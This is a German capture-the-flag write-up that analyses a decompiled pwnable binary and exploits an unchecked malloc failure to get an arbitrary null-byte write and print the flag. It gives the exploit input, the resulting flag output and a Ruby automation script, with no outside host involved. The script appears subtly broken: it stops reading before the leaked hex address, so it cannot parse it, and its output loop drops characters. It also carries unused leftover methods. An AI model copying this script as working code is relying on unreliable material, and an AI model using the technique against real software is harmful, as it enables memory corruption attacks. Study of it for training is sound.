 
# Assignment: Analyse mit Ghidra (pwnable 21)


## Aufgabe

Laden Sie die folgende Datei herunter und analysieren Sie sie in Ghidra:

-pwnable_21
Versuchen Sie eine Schwachstelle zu entdecken und nutzen Sie diese dann aus, um sich das Flag ausgeben zu lassen. Hierbei geht es darum, eine Eingabe zu finden, die das Programm dazu bewegt, das Flag auszugeben.

Tipp: Versuchen Sie die Variable, welche den Aufruf der win()-Funktion kontrolliert durch Ausnutzung einer Schwachstelle zu schreiben.


## Vorgehenweise

Sobald die Speicheranforderung zu groß wird, gibt Malloc einen Nullpointer zurück. Dies könnte dazu führen, dass ein Null-Byte willkürlich im Speicher geschrieben wird, was wiederum eine Bedingung auslösen kann. Für die Automatisierung verwenden wir Ruby.


## Lösungweg
```c
int main() {
  long in_FS_OFFSET;
  size_t length;
  long *leak;
  void *message;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  length = 0;
  setup();
  puts("Welcome.");
  leak = (long *)malloc(0x40000);
  *leak = 1;
  printf("Leak: %p\n",leak);
  printf("Length of your message: ");
  __isoc99_scanf(&DAT_00100ff9,&length);
  message = malloc(length);
  write(1,"Enter your message: ",0x14);
  read(0,message,length);
  *(undefined *)((long)message + (length - 1)) = 0;
  write(1,message,length);
  if (*leak == 0) {
    win();
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                  
    __stack_chk_fail();
  }
  return 0;
}
```

In der Main-Funktion werden zunächst mehrere Felder definiert. Dazu gehört auch die Definition einer Länge (length) und einer Nachricht (message), die vom Nutzer eingegeben wird. Die Variable "message" ist ein Zeiger (Pointer). Darüber hinaus gibt es einen sogenannten "Pointer Leak".

Zu Beginn des Programms wird die Länge auf 0 gesetzt und Speicher für "leak" mit einer Größe von 0x40000 Byte allokiert. Dann wird der Wert von *leak auf 1 gesetzt. Als nächstes erfolgt die Nutzereingabe für die Länge, die in die Variable "length" geschrieben wird. Daraufhin wird mit malloc Speicher in der Größe der Eingabe allokiert. Danach wird eine weitere Nutzereingabe gelesen, die in den zuvor allokierten Speicher für "message" geschrieben wird.

An dieser Stelle fällt auf, dass nach dem malloc mit der Länge (Nutzereingabe!) kein Null-Pointer-Check durchgeführt wird. Dies könnte potenziell ausgenutzt werden.

Nachdem die Nachricht eingelesen wurde, wird das letzte Zeichen auf 0 gesetzt, indem *(undefined *)((long)message + (length - 1)) = 0; verwendet wird. Danach wird die Nachricht ausgegeben und überprüft, ob die zuvor auf 1 gesetzte Variable *leak nun 0 ist. Wenn dies der Fall ist, wird die Flagge ausgegeben.

Wir starten das Programm und erhalten die erwarteten Ausgaben sowie die Adresse der Variable *leak. Aufgrund des fehlenden Null-Pointer-Checks können wir jetzt einen Angriff initiieren. Durch *(undefined *)((long)message + (length - 1)) = 0; können wir unsere Eingaben so gestalten, dass *leak auf 0 gesetzt wird.

Wenn malloc einen Nullpointer zurückgibt, weil ein zu großes Speichersegment zugewiesen werden soll, führt dies dazu, dass (in Pseudocode) message[length-1] = 0; den Ausdruck 0[length-1] = 0 ergibt, was zu *(length-1) = 0; führt. Diese Methode ermöglicht es, beliebige Speicherstellen durch 0 zu ersetzen.

Indem wir die Adresse von Leak wählen, sie in eine Dezimalzahl umwandeln und 1 hinzufügen, erhalten wir *(leak) = 0;. Dadurch wird die Bedingung wahr.
Um das Flag zu erhalten, geben wir bspw. folgenden Input. 
```
Welcome.
Leak: 0x7f615f310010
Length of your message: 140056185602065
Enter your message: asd
FLAG{malloc_can_never_fail}
```

Die geleakte Adresse wird in eine Dezimalzahl umgewandelt, um 1 erhöht und als Input für Length of Message eingegeben. Der Input für Enter your message kann danach beliebig sein.

Wir können auch ein script in Ruby schreiben um das ganze zu automatisieren.
Das Script könnte so aussehen :
```ruby
require 'socket'
require 'open3'

class CrackMe
  def initialize
    @verbose = false
    @delay = 0.5
  end

  def read_until(symbol)
    result = ""
    loop do
      c = receive()
      print c if @verbose
      result << c
      break if result[-symbol.length..-1] == symbol
    end
    result
  end

  def read_line
    result = ""
    loop do
      c = receive()
      print c if @verbose
      result << c
      break if c == "\n"
    end
    result
  end

  def send_string(str)
    send(str)
    print "-> #{str}\n" if @verbose
    sleep @delay
  end

  def send_byte(b)
    send(b.chr)
    print "-> #{b.chr}\n" if @verbose
    sleep @delay
  end

  def send_line(str)
    send(str + "\n")
    sleep @delay
  end

  def send_buffer(buf)
    send_buffer = buf.to_a.flatten.pack('c*')
    send(send_buffer)
    print "-> #{buf.to_s}\n" if @verbose
    sleep @delay
  end

  def send_address(address)
    buffer = Buffer.new
    buffer << address
    send_buffer(buffer)
  end

  def solve(s)
    s =~ /(.*)([+\-*\/])(.*).*=/

    left = $1.strip.to_i
    right = $3.strip.to_i
    op = $2.strip

    case op
      when '*'
        left * right
      when '+'
        left + right
      when '-'
        left - right
      when '/'
        left / right
      else
        0
    end
  end

  def close; end

  protected

  def send(data); end

  def receive; end

  class CrackMeExe < CrackMe
    def initialize(read, write)
      super()
      @read = read
      @write = write
    end

    def send(data)
      @write.write(data)
      @write.flush
      @write.ioflush
    end

    def receive
      begin
        @read.getc
      rescue Errno::EIO => e
        ''
      end
    end

    def close
      @write.close
    end
  end
end

crack_me = CrackMe::CrackMeExe.new(*Open3.popen2('./pwnable_21'))
leak = crack_me.read_until("0x").strip.to_i(16)
puts "Leaked value: #{leak}"

crack_me.send_line((leak + 1).to_s)
crack_me.send_line("Ceterum censeo Carthaginem esse delendam")

loop do
  print crack_me.receive
  break if crack_me.receive.empty?
end

```

